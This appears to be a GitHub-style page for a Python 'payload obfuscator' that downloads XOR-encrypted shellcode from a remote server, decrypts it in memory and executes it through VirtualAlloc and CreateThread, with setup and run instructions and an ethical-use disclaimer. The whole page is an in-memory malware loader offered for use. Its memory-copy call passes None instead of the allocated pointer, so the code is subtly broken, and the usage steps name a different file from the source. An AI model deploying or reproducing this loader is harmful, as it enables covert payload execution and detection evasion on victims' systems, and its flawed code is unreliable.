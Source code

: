 ```yaml
---
description: >-
  Python script that downloads XOR-encrypted payloads, decrypts them at runtime,
  and executes them directly in memory via Windows API calls.
---
```


# Payload Obfuscator

Check it out - payload\_obfuscator.py

<details>

<summary>payload_obfuscator.py</summary>

```python
import requests
import ctypes


def xor_decrypt(data, key):
    return bytes([b ^ key for b in data])


# Download the encrypted shellcode
url = '<ip>/<payload-name>'
response = requests.get(url, allow_redirects=True)

if response.status_code == 200:
    print("Encrypted shellcode downloaded successfully")
    encrypted_shellcode = response.content

else:
    print("Failed to download shellcode")
    exit(0)

# Decrypt shellcode
key = 0x41
shellcode = xor_decrypt(encrypted_shellcode, key)

# Allocate memory
ptr = ctypes.windll.kernel32.VirtualAlloc(None, len(shellcode), 0x3000, 0x40)

# Copy the shellcode into the memory
ctypes.windll.kernel32.RtlMoveMemory(None, shellcode, len(shellcode))

# Execute shellcode
ht = ctypes.windll.kernel32.CreateThread(None, 0, ptr, None, 0, None)

ctypes.windll.kernel32.WaitForSingleObject(ht, -1)

```

</details>

#### Features

* **Payload Encryption** – Uses XOR-based encryption to protect payloads in transit.
* **Downloader** – Retrieves the encrypted payload from a remote HTTP server.
* **Decryption at Runtime** – Decrypts payloads only in memory, never writing them to disk.
* **Windows API Integration** – Leverages `VirtualAlloc`, `RtlMoveMemory`, and `CreateThread` through Python’s `ctypes`.
* **Memory-Only Execution** – Executes the payload directly in allocated memory.

***

#### Requirements

* **Operating System**: Windows (needed for Windows API calls through `ctypes`)
* **Python Version**: Python 3.8 or later
* **Libraries**:
  * `requests` → for downloading the encrypted payload
  * `ctypes` → comes built-in with Python, used for calling Windows API functions

***

#### Installation

Before running the project, install the required library using:

```
pip install requests
```

***

#### Setup and Usage

1. **Prepare the Encrypted Payload**
   * Encrypt your payload using the same XOR key defined in the script.
   * Save it as `encrypted_shellcode.bin`.
2. **Start a Local HTTP Server**
   * Place the encrypted payload in a directory.
   *   Start a Python HTTP server to host it:

       ```
       python -m http.server 8000
       ```
3. **Configure the Script**
   * Update the `url` variable inside `encrypt_downloader.py` with the server’s IP address and port.
   *   Example:

       ```
       url = 'http://192.168.31.230:8000/encrypted_shellcode.bin'
       ```
4. **Run the Script**
   *   Execute the script on the Windows system:

       ```
       python encrypt_downloader.py
       ```
5. **Observe Execution**
   * The script downloads, decrypts, and executes the payload directly in memory.

***

#### Disclaimer

This tool is intended for educational and ethical testing purposes only.\
Do **not** use it on networks or systems you don’t own or have explicit permission to test.

